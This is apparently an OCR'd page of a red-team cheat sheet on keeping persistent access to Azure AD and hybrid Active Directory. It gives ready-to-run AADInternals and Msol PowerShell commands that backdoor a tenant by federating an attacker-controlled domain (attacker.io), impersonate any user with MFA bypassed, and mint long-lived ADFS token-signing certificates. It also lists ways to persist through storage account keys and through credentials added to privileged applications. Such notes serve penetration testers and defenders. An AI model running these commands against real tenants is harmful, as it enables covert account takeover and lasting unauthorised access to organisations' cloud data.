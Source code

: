 * If the on-prem AD is already compromised : provide high perms with the **AdminSDHolder** (DCSync for example) to a controlled and synced user
* Reset the user's password in Azure AD -> provide DA privs on the on-prem, can be used to obtain GA on Azure AD

**Federation - Trusted Domain**

With GA on a tenant, it is possible to add a new domain, configure its authentication to Federated and to trust a specific certificate. With **AADInternals**:

```powershell
ConvertTo-AADIntBackdoor -DomainName attacker.io 
```

Get ImmutableID of the user that we want to impersonate. Using **Msol** module:

```powershell
Get-MsolUser | select userPrincipalName,ImmutableID
```

Access any cloud app as the user:

```powershell
Open-AADIntOffice365Portal -ImmutableID <ImmutableID> -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA $true
```

**Federation - Token Signing Certificate**

With DA on on-prem it is possible to create new Token signing and Token Decrypt with very long validity.

With **AADInternals**, create new certs (default pass : `AADInternals`), add them to ADFS, disable auto rollover and restart service:

```powershell
New-AADIntADFSSelfSignedCertificates
```

Update info with Azure AD:

```powershell
Update-AADIntADFSFederationSettings -Domain domain.io 
```

#### Storage Account Access Keys

* Provide root access to a storage account
* There are two keys, not automatically rotated
* Provide access persistence to the storage account

#### Applications and SP

* With App Admin priv, GA or custom role with `microsoft.directory/applications/credentials/update` permissions, it is possible to add creds to an existing app
* Useful if the app has high privs
* Bypass MFA
* Also possible to create new app with high privs: with GA, it is possible to create an app with **Privileged authentication administrator role** -> permits to reset GA passwords
